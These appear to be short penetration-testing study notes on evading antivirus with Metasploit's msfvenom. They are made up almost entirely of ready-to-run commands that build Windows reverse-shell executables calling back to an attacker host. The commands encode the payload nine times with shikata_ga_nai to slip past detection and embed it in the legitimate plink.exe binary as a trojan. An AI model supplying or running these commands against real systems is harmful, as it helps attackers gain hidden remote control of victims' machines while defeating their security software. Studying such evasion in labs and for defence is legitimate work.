 # Avoid Antivirus
> the `msfpayload` and `msfencode` have beeb depricated in Metasploit in favour of `msfvenom` - however the results of the following experiment would stay the same.  

## msfvenom
- `msfvenom --list payloads`
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.179 LPORT=4444 -o shell_reverse.exe`  
- `msfvenom -p windows/shell_reverse_tcp -o reverse_shell_tcp.exe --platform windows --arch x86 LHOST=10.11.0.179 LPORT=4444`

> we'll submit our executable to `virustotal` [https://www.virustotal.com/gui/home]
> we'll manipulate our reverse_shell executable further in order to try and avoid as many AV's as possible.

## encoders
```
msfvenom -l encoders
x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```
> we'll now generate our reverse shell payload via `shikata_ga_nai` encoder, 9 times.
- `msfvenom --payload windows/shell_reverse_tcp --out reverse_shell_tcp.exe --encoder x86/shikata_ga_nai --iterations 9 --platform windows --arch x86 LHOST=10.11.0.179 LPORT=4444`

## embeddint in executables
> we'll Specify a custom executable file to use as a template
- `msfvenom --payload windows/shell_reverse_tcp --out reverse_shell_tcp_embedded.exe --encoder x86/shikata_ga_nai --iterations 9 --platform windows --arch x86 -x /usr/share/windows-binaries/plink.exe LHOST=10.11.0.179 LPORT=4444`
